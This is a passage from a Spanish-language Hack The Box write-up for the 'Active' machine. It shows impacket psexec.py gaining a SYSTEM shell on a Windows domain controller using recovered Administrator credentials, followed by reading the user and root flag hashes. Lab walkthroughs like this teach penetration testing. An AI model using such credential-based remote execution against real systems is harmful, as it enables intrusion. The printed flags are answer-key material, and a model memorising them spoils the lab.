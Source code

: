 ¡Genial! Ahora vamos a poder ganar acceso al sistema, con la utilidad **psexec** .

```bash
h3g0c1v@kali:~/htb/active$ python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file knShNoTL.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service Srem on 10.10.10.100.....
[*] Starting service Srem.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```

# Visualizamos las Flags

Ahora podemos visualizar las dos flags, tanto la `user.txt` como la `root.txt`.


Así que primero vamos a ver la `user.txt`.

```bash

C:\Users\SVC_TGS\Desktop>type user.txt
86d67d8ba232bb6a254aa4d10159e983

```

Y la `root.txt`

```bash

C:\Users\Administrator\Desktop>type root.txt
b5fc76d1d6b91d77b2fbf2d54d0f708b

```
